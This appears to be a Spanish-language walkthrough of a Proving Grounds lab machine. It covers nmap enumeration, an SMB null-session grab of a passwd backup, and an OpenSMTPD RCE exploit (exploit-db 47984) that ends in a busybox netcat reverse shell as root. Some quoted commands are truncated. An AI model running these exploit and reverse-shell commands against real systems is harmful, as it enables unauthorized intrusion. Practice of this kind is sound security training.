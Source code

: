 Comenzamos escaneando los puertos abiertos de la máquina objetivo con nmap.

``sudo nmap 192.168.122.71 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts 5000``

![1](Images/1.png)

Ojo, puertos 22, 25, 80 y 445 abiertos. A priori, utilizando los well-known ports podemos pensar en SSH, SMTP, HTTP y SMB (SAMBA para Linux). No obstante, para asegurarnos, vamos a pasarle estos puertos abiertos a nmap para que nos diga con más exactitud qué servicios y versiones están corriendo. 

``nmap 192.168.122.71 -sCV -p22,25,80,445 -oN target ``

![2](Images/2.png)

Confirmamos que la distribución de puertos abiertos y servicios corresponde con lo que pensábamos.

Vamos a intentar ver qué se está compartiendo a través de SMB. Como no tenemos credenciales, haremos uso de null session.

``smbclient -L //192.168.122.71 -N``


![3](Images/3.png)

Muy interesante. No sólo podemos acceder, sino que además vemos un directorio "backups".

Sabiendo que existe este directorio (con nombre bastante interesante) y que podemos acceder con null session, vamos a inspeccionar desde más cerca accediendo por SMB a este directorio:

``smbclient //192.168.122.71/backups -N``

![4](Images/4.png)

Ojo lo que tenemos aquí. 

Nos lo traemos a máquina atacante para ver su contenido.

``get passwd.bak``

![5](Images/5.png)

Si miramos su contenido, es el /etc/passwd de la máquina víctima:

![6](Images/6.png)

De aquí podemos extraer los nombres de usuario que existen a nivel de sistema.

Vamos a generar un diccionario de usuarios -> users.txt:
- `neil`
- `_smtpd`
- `_smtpq`

PARÓN.

Dado que no se encontraba acceso a la máquina de ninguna forma, me vi obligado a volver sobre mis pasos en la enumeración.

Si revisamos bien el output de nmap, vemos que la versión de OpenSMTPD es la 2.0.0. Lo cual es algo bastante bajo.

Si buscamos en exploit.db/serachsploit por openSMTPD, encontramos:


![7](Images/7.png)

Ojo, nos aparecen diferentes RCE muy interesantes.  

Después de hacer pruebas con varios, encontramos uno que funciona: 47984.py

![8](Images/8.png)

Para comprobar si tenemos RCE, lo primero que haremos será ping+tcpdump.

Interfaz tun0 -> VPN de ProvingGrounds

Protocolo -> icmp (para ver si nos llegan los pings)

- Lanzamos tcpdump:

``sudo tcpdump -i tun0 icmp``

![9](Images/9.png)

- Hacemos uso del exploit 47984.py y nos lanzamos un ping.

``python3 47984.py 192.168.122.71 25 'ping -c 1 192.168.45.194``


![10](Images/10.png)

- Revisamos tcpdump:


![11](Images/11.png)

Bingo. Nos ha llegado.

Vamos a repetir el proceso, pero en vez de lanzarnos un ping será una reverse shell.

Lo primero es ponernos a la escucha:

``nc -nvlp 80``


![12](Images/12.png)

Para la reverse shell vamos a hacer uso de una que viene muy bien para estos casos, busybox:

![13](Images/13.png)

Lanzamos:

``python3 47984.py 192.168.122.71 25 "busybox nc 192.168.45.194 80 -e s``


![14](Images/14.png)

Si revisamos nuestro listener:

![15](Images/15.png)

Estamos dentro de la máquina víctima y como root.
